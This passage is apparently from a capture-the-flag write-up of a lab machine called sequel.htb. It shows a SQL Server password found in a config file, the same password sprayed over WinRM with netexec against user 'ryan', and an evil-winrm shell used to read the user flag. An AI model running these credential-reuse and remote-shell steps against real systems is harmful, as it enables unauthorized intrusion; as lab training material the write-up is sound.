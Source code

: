 ```bash
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

<br />

In the `C:\Users` directory we can see another user called `ryan`.

The credentials are valid for this user:

<br />

```bash
❯ netexec winrm sequel.htb -u "ryan" -p "WqSZAF6CysDQbGb3"
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

<br />

We use `evil-winrm` to gain an interactive shell as this user:

<br />

```bash
❯ evil-winrm -i sequel.htb -u "ryan" -p "WqSZAF6CysDQbGb3"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
```

<br />

And we get the `user.txt` flag:

<br />

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
516de9ed6f058aa7a03aa22195xxxxxx
```

<br />
